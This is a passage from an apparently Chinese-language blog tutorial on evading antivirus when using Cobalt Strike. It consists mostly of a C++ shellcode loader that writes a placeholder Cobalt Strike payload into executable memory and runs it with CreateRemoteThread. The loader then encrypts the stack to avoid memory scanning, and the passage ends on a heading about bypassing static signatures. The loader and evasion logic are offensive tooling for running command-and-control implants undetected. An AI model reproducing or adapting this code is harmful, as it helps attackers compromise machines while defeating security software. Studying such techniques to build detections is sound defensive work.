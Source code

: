 ```cpp
}


int main() {
    // 在堆栈上保存一些变量
    unsigned char shellcode[] = "CobaltStrike shellcode";

    // 获取当前进程的句柄
    DWORD pnameid = GetCurrentProcessId();
    HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pnameid);

    // 在远程进程中分配内存并写入shellcode
    PVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);

    // 在远程进程中创建一个新线程来执行shellcode
    HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);

    // 关闭进程句柄
    CloseHandle(processHandle);

    getchar();

    // 获取RSP的值，表示堆栈的起始地址
    unsigned char* rsp;
    asm("movq %%rsp, %0;" : "=r" (rsp));
    printf("[+] The address of rsp is %p\n", rsp);

    // 创建一个线程来执行堆栈加密
    HANDLE hThread = CreateThread(NULL, 0, EncryptThread, rsp, 0, NULL);
    if (hThread == NULL) {
        printf("[-] Failed to create thread\n");
        return 1;
    }

    // 暂停等待用户输入
    system("pause");
    return 0;
}

```



以下是堆栈加密前和加密后的对比图：

![image-20231017231817521](利用CS的Profile文件实现免杀/image-20231017231817521.png)



# 静态签名绕过
